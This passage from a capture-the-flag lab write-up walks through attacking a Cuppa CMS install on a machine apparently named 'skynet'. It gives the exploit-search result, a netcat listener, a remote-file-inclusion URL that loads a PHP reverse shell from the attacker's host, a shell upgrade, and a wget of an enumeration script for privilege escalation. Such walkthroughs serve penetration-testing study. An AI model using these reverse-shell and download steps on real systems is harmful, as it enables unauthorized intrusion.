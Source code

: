 Yet another vector! The `/administrator` directory leads us to the login form of the `Cuppa CMS`.
Unfortunately, credentials that we already have will not work here.  
Let's look for other ways in.

We don't know the version of the `Cuppa CMS`, but it will not harm anyone if we will check for the available exploits.

## Exploitation

```
searchsploit cuppa

Cuppa CMS - '/alertConfigField.php' Local/Remote File | php/webapps/25971.txt
```

We have only one `RFI`. As we don't have any other ideas let's try it out:

Grab a copy of `php-reverse-shell.php` from `PentestMonkey`, specify there your IP and port.  
Open `nc` listener:
```
sudo nc -nlvp 1337
```
Open the web server in the folder with your reverse shell:
```
 sudo python -m SimpleHTTPServer 80                                                                        
```

Finally, let's trigger the exploit itself:

```
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<your_ip>/php-reverse-shell.php
```

Catch your shell!

You can upgrade your shell by
```
/usr/bin/script -qc /bin/bash /dev/null
```

## PrivEsc

Transport your favorite tool for privilege escalations to the machine. As we already have `SimpleHTTPServer` on port `80` you can use it.  
`cd` to the folder where you have access to writing (`/tmp` for instance) and download the tool.    
I will use [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) this time:

```
www-data@skynet:/tmp$ wget http://<your_ip>/lse.sh
www-data@skynet:/tmp$ chmod +x lse.sh
www-data@skynet:/tmp$ ./lse.sh
```

`lse` has a great `-l` flag, which allows you to specify how many details will be shown. I can recommend starting without it, and if you will not find anything useful, run `lse.sh` again with `-l 1`, `-l 2` or `-l 3` accordingly.
